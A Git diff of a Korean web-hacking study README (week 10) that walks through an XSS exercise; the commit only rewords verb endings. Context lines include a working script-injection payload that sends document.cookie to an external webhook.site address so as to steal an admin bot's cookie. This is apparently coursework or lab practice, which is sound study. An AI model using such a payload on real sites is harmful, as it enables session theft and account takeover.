

Before and after one commit to codename-123/web-hacking-study, a Markdown page: 10_week/README.md, 3 parts joined by grey strips. Rendered like a GitHub page; grey boxes are pictures that could not be loaded.

````diff
--- a/10_week/README.md
+++ b/10_week/README.md
@@ -90,7 +90,7 @@
 ![xss2 payload](./screenshots/xss2_me_cookie.png)
 
 - 쿠키 값이 정상적으로 수신되는 것을 확인하였다.
-이제 동일한 방식으로 **관리자 봇을 이용해 관리자 쿠키를 탈취**할 예정이다.
+이제 동일한 방식으로 **관리자 봇을 이용해 관리자 쿠키를 탈취**할 것 이다.
 
 **관리자 봇을 통하여 쿠키 값 전송**
 
@@ -122,7 +122,7 @@
 123"/><script>new Image().src="https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01?cookie="%2Bdocument.cookie</script>
 ```
 
-위 페이로드를 URL에 포함하여, **관리자 봇이 해당 URL에 접속하도록 유도할 예정**이다.
+위 페이로드를 URL에 포함하여, **관리자 봇이 해당 URL에 접속하도록 유도**할 것이다.
 
 ![xss3 payload](./screenshots/xss3_admin_access.png)
 
@@ -158,7 +158,7 @@
 
 ![xss4 access](./screenshots/xss4_access.png)
 
-- 페이로드가 정상적으로 동작함을 확인하였다. 이제 이를 이용해 **관리자의 쿠키 값을 탈취**할 예정이다.
+- 페이로드가 정상적으로 동작함을 확인하였다. 이제 이를 이용해 **관리자의 쿠키 값을 탈취**할 것이다.
 
 ![xss4 admin access](./screenshots/xss4_admin_access.png)
 
````
Also changed, not shown: other parts of 10_week/README.md (+1 -1 lines).
